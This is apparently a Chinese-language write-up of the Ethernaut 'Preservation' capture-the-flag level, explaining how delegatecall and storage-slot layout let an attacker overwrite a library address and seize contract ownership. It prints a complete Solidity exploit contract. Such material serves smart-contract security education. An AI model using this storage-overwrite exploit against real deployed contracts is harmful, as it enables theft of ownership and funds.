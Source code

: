 # 第十六关：Preservation

### 本关知识点：
```
1. delegatecall调用
2. 合约变量的存储
3. uint256和address的类型转换
```

## 1. 题目要求
` 尝试取得合约的所有权（`owner`）。`

## 2. 代码功能解读

![[2023-05-21_201052.png]]

## 3. 漏洞分析
```
通过delegatecall更改调用者合约的参数。
	1. uint的大小是256位，address的大小是160位，我们把address伪装为uint，然后传入setFirstTime方法，将timeZone1Library变量设置为自己的地址。
	2. 在攻击合约中将"setTime(uint256)"方法设置为修改第四个槽位的值为玩家的地址。
```

## 4. 攻击方法
``` java
contract Exploit {

  Preservation pres;

  address solt1;

  address solt2;

  // uint256 solt3;

  constructor(address addr) {

    pres = Preservation(addr);

  }

  

  function attack()public {

    uint256 time = uint256(uint160(address(this)));

    pres.setFirstTime(time);

    require(pres.timeZone1Library() == address(this), "error attack");

    uint256 owner = uint256(uint160(address(msg.sender)));

    pres.setFirstTime(owner);

    require(pres.owner() == msg.sender, "error owner");

  }

    function setTime(uint _player) public {

    solt2 = address(uint160(_player));

  }

}
```

## 5. 攻击调用图
![[Pasted image 20230521204944.png]]
![[Pasted image 20230521205124.png]]


## 6. 知识点分析


如果对大家有用，请点赞；如果喜欢，请订阅加点赞，会一直更新~